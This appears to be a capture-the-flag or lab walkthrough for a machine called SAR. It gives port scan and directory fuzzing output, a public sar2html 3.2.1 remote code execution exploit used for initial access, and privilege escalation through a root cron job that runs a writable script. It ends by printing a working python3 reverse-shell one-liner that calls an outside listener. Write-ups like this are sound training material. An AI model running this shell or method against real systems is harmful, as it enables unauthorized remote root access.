



# SAR

**Hostname:**
`sar`

**OS:**
`Ubuntu Linux`

**Users:**
`love`

## Port Scan:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:07:B1:37 (VMware)

```

## Recon:

### Web Recon

**Server:**
`Apache 2.4.29`

Languages:
`PHP 7.1.32`

**Technologies:**
`sar2html Ver 3.2.1`
- Sar2HTML Plotting Tool

**robots.txt**
```
sar2html
```
#### Fuzzing

**$IP/FUZZ**
```
 :: Method           : GET
 :: URL              : http://192.168.136.166/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
robots.txt              [Status: 200, Size: 9, Words: 1, Lines: 2]
phpinfo.php             [Status: 200, Size: 95486, Words: 4716, Lines: 1170]
```

**$IP/FUZZ/**
```
 :: Method           : GET
 :: URL              : http://192.168.136.166/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

icons                   [Status: 403, Size: 280, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
```

### Machine Enumeration

#### Crontab:
```
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

## Foothold / Privilege Escalation:

### Initial Foothold

Initial access was possible due to a vulnerable technology sar2HTML version 3.2.1 which was vulnerable to a [Remote Code Execution Vulnerability](https://www.exploit-db.com/exploits/47204).\
I used a python3 reverse shell command to get a connection into the machine.

---

### Privilege Escalation:

I enumerated files using linpeas and found a cronjob executing a shell script as root.



This was vulnerable since the script was used to execute another script to which I had write permissions.
I exploited this by using a python3 reverse shell command. And when the cronjob executes I get a root shell on my listener.

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```



